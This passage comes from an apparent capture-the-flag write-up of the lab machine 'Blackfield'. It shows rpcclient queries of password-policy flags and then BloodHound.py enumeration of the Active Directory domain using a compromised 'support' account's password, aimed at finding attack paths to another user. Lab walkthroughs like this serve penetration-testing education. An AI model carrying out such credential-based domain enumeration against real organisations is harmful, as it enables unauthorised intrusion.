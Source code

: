 ```shell
               1: DOMAIN_PASSWORD_COMPLEX  
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE

rpcclient $> getusrdompwinfo 0x586
    &info: struct samr_PwInfo
        min_password_length      : 0x0007 (7)
        password_properties      : 0x00000001 (1)
               1: DOMAIN_PASSWORD_COMPLEX  
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE

rpcclient $> 

```
At first i thought since for the user krbtgt the DOMAIN_PASSWORD_COMPLEX is 0 which means the password is only alphanumeric if it was 1 instead there would be special characters as well, here the password for the user krbtgt doesn't follow the password policy and can be cracked?!
But if we try to get the TGT for krbtgt we get the error credentials have been revoked for the user krbtgt. We need to think of something else.<br>
### Enumerating Active Directory with Bloodhound
[https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)<br>
We can enumerate AD with the support user, first of all mark the support user as owned, mark the audit2020 user as high value.<br>
Then right click on the audit2020 user and select 'Shortest Path to Here from Owned'.
```shell
sid@kali:/opt/BloodHound.py$ sudo python3 bloodhound.py  -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c DcOnly
INFO: Found AD domain: blackfield.local
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 315 users
INFO: Connecting to GC LDAP server: dc01.blackfield.local
INFO: Found 51 groups
INFO: Found 1 computers
INFO: Found 0 trusts
INFO: Done in 00M 14S

sid@kali:/opt/BloodHound.py$ sudo bloodhound
```
<p class="aligncenter">